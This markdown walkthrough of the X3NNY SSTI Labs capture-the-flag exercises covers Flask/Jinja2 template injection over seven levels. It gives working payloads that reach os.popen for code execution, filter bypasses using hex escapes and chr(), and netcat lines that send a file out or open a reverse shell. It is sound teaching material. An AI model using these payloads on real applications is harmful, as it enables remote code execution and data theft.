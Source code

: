 # SSTI Labs (by X3NNY) writeup
* You can find the link to the lab [here](https://github.com/X3NNY/sstilabs)

## Fingerprinting
* When we input `{{7*'7'}}`, Twig would output `49`, while Jinja2/Flask output `7777777`
* 


## Flask-Lab
### Level 1
* First, we can test for template injection by typing in `{{7 + 7}}`, which gives us `Hello 14`, which proves it is evaluating our input (and thus has SSTI)

* This is a basic problem. It doesn't seem like theres any input sanitization 
	* Here, our goal should be to find a function so we can look for the globals and run a command.

* **Note**: All these commands have to be included in the template structure `{{}}` because of how flask handles templating

* Interestingly, the python interpreter uses python itself internally, so we can access that in a bit of a roundabout way.
* The payload I used was: 

```python3
# look at files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('ls').read() }}

# cat files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```
#### Breaking down the payload
1. Here, we are using an empty string and getting the `<class 'str'>` class
2. Next, we get the base (parent) of that class, which is the python object class: `<class 'object'>
3. `__subclasses__()` is a python function that gives us all child classes of a class, so this gives us a list of classes that inheret object
	1. Now, we have to find an index of this list that imports `sys`, which you can check for in the python source code.
	2. I used the `<class 'warnings.catch_warnings'>` class, which is typically around index `140` depending on your python version
4. `__init__` is like the constructor for any given class, and it a function we can be confident is in the class.
5. Once we have a function, `__globals__` gets us all the imported modules (and other globals) in the file from the function, which includes the sys module
6. `sys` includes the the the `os` module, so we can access the `.modules` dictionary to get the modules loaded, one of which is `os`
7. Now that we have access to the os module, we can run `popen('<command>').read()` and we have arbitrary code execution!

#### Alternative methods
* **Note**: This is a general method that works for most python SSTI
* However, we can do something specific on flask sites
* Because we know this is running flask, we know a function, [`url_for`](https://flask.palletsprojects.com/en/2.0.x/api/#flask.url_for), exists, which [imports os](https://github.com/pallets/flask/blob/main/src/flask/helpers.py)
	* Thus, we can do the same thing as before and run `url_for.__globals__.os.popen(<command>).read()`
* When we type in `{{ url_for.__globals__.os.popen('cat flag').read() }}`, we get the flag: `SSTILAB{enjoy_flask_ssti}`

## Level 2
* Immediately, it looks like even something as basic as `{{7 + 7}}` or `{{7}}` returns `Hello WAF`
	* Testing more, it looks like `{{` in particular is a blocked string

* We can bypass this, as flask has [more than one](https://flask.palletsprojects.com/en/2.0.x/tutorial/templates/) template type
	* For example, there is a `{%%}` template that is used for conditional checks
	* Unfortunately, this doesn't display anything, so our RCE is completely blind.

* To account for this, we're going to cat our output with the command `cat flag | nc 127.0.0.1 4444`
	* We can listen for a connection with `nc -lvnp 4444` locally

* Alternatively, we can also try to run a reverse shell using the command `nc -e /bin/sh 127.0.0.1 4444`
	* This serves a shell to localhost (our machine) on port 4444
	
* Here's the payload I used:
```python3
{% if url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah' %}{% endif %}

```
#### Breaking down the payload
1. This checks to see if the condition `url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah'` is true
	1. In this case, we know the output won't be 'blah', but the command still executes
2. Everything between `{% if %}` and `{% endif %}` is what would typically execute if the condition was true, but we don't have to worry about that here.

### Level 3
* Here, no matter what we input, we only see `wrong` or `correct` as an output
	* This is a classic blind SSTI problem
* Once again, we can use netcat to serve the file to us on our local machine
* It looks like there isn't any WAF on this level, so we can use roughly the same payload as last time:

```python3
{{ url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444') }}
```

### Level 4
* For this level, it looks like `{{`, `}}`, `{{7 + 7}}`, and `{{7 * '7'}}` all work, but `[` and `]` are blocked 
* Thus, we can do exactly what we did in level 1:

```python3
{{ url_for.__globals__.os.popen('cat flag').read() }}
```

### Level 5
* For this level, it seems like single and double quotes are blocked

* At first I wanted to use chr() to convert digits into an ascii representation of the string, but flask doesn't have a built-in chr() function
	* Fortunately, we can still access python's chr() function

* To figure out the integer representation of 'flag', i used `[ord(i) for i in 'flag']`, which gave me the numbers `[102, 108, 97, 103]`


* Here's the payload I used:

```python3
{{ url_for.__globals__.__builtins__.open(url_for.__globals__.__builtins__.chr(102) + url_for.__globals__.__builtins__.chr(108) + url_for.__globals__.__builtins__.chr(97) + url_for.__globals__.__builtins__.chr(103)).read()}}
```
#### Breaking down the payload
1. To get the chr() function, we do the same thing as before, but access the [`__builtins__` module](https://docs.python.org/3/library/builtins.html), which has many useful functions, like `open()` and `chr()`
	1. To get a character based on any ordinal value, we can write `url_for.__globals__.__builtins__.chr(NUM)`
2. Thus, to get the whole `flag` string, we just append all of those together
3. Then, we use `url_for.__globals__.os.open()` and pass in the flag string to read the flag file


### Level 6
* It looks like in this level, we can't use any underscores
* Luckily, flask processes hex characters, so we can replace all our blocked characters with hex bytes
	* In this case, an underscore is 0x5f

* Here is the original payload along with the underscores converted to hex:
```python3

{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}

{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[140]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['sys'].modules.os.popen('cat flag').read() }}


```

### Level 7
* This level doesn't allow dots
* We can do somethin similar to what we did in the last one and use give all the properties as strings:

* Here is the original payload along with the dots removed and all functions placed inside quotes and square brackets
```python3
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}


{{ " "["__class__"]["__base__"]["__subclasses__"]()[140]["__init__"]["__globals__"]['sys']["modules"]['os']["popen"]('cat flag')["read"]() }}


```